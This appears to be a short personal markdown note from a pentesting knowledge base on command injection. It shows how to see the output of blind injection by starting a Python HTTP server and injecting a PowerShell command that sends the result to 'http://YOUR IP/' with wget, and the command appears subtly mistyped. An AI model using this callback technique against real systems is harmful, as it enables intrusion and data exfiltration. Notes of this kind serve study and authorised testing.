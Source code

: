 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Command Injection]]  
___

## Description:  

**See the output of blind command injection:

```
Start a python http server
sudo python -m SimpleHTTPServer 80
 
Run this as command injection to run ls:
powershell -c $a=COMMAND; wget http://YOUR IP/&a

```

**Is there a firewall in your way?
[[Firewall Enumeration]]


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (02:11 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
